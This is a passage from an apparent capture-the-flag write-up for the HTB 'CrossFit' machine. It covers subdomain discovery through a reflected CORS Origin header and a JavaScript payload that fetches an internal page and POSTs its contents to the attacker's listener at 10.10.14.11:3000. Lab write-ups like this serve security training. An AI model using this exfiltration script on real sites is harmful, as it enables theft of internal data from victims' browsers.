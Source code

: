     Total time: 488.0333
    Processed Requests: 100000
    Filtered Requests: 99999
    Requests/sec.: 204.9040
    
    

It finds the `ftp` subdomain right away. I can recreate this result in
Repeater with the following request:

    
    
    GET / HTTP/1.1
    Host: gym-club.crossfit.htb
    Origin: http://ftp.crossfit.htb
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1
    

The response:

    
    
    HTTP/1.1 200 OK
    Date: Sat, 23 Jan 2021 11:43:28 GMT
    Server: Apache/2.4.38 (Debian)
    Vary: Accept-Encoding,Origin
    Access-Control-Allow-Origin: http://ftp.crossfit.htb
    Access-Control-Allow-Credentials: true
    Content-Length: 36336
    Connection: close
    Content-Type: text/html; charset=UTF-8
    
    <!DOCTYPE html>
    <html lang="zxx">
    ...[snip]...
    

### Interacting with ftp.crossfit.htb

From my machine, `ftp.crossfit.htb` just returns the default Apache page, but
the results above suggest it could be different coming from `gym-club`. I’ve
already got JavaScript to make an HTTP query. I’ll repurpose that:

    
    
    var fetch_req = new XMLHttpRequest();
    fetch_req.onreadystatechange = function() {
        if(fetch_req.readyState == XMLHttpRequest.DONE) {
            var exfil_req = new XMLHttpRequest();
            exfil_req.open("POST", "http://10.10.14.11:3000", false);
            exfil_req.send("Resp Code: " + fetch_req.status + "\nPage Source:\n" + fetch_req.response);
        }
    };
    fetch_req.open("GET", "http://ftp.crossfit.htb/", false);
    fetch_req.send();
    